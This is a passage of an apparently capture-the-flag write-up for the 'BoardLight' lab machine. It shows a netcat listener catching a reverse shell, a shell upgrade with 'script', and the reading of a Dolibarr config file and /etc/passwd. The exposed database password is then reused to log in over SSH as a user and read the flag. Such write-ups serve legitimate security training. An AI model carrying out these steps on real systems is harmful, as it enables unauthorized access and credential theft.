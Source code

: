 ```console
root@kali~# nc -lnvp 9000
listening on [any] 9000
connect to [10.10.14.52] from (UNKNOWN) [10.10.11.11] 33966

$ whoami
www-data

$ script /dev/null -c /bin/bash
Script started, file is /dev/null
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$

```

We now have an interactive shell as **`www-data`**. To get a more stable shell use **`script`**

> [!NOTE]
> 
> The **`script`** command in Linux is used to create a typescript of everything that occurs in a terminal session. This command below starts a new shell session using a script , which creates a new interactive Bash shell. The output is directed to `/dev/null` , effectively discarding it, while still allowing us to interact with the shell

### 6. User and Password Discovery
*After enumerating the system, we find credentials in the file `/var/www/html/crm.board.htb/htdocs/conf/conf.php`:* 

```console
www-data@boardlight:~/html/crm.board.htb/htdocs/conf/$ catconf.php
[...]
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
[...]
```

*Next, we check the **`/etc/passwd`** file and find a user named **`larissa`**:*

```console
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cat /etc/passwd
[...]
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
[...]
```

*We attempt SSH login using the discovered credentials **`larissa:serverfun2$2023!!`**:*

```console
root@kali~# ssh larissa@board.htb
larissa@board.htb's password: 
Last login: Wed Jan  8 15:32:42 2025 from 10.10.14.52

larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)

larissa@boardlight:~$ cat user.txt
747cece2f9f6c160f59c6f485b3e1f13
```
## Privilege Escalation
